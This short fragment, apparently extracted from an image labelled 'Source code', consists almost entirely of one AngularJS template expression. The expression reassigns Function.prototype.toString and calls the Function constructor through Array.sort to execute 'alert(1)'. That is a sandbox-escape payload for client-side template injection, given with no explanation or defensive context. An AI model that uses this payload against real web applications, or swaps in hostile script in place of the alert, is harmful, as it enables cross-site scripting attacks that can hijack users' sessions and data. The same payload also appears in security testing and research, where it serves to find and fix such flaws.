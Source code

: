 {{toString.constructor.prototype.toString=toString.constructor.prototype.call;
    ["a","alert(1)"].sort(toString.constructor)}}

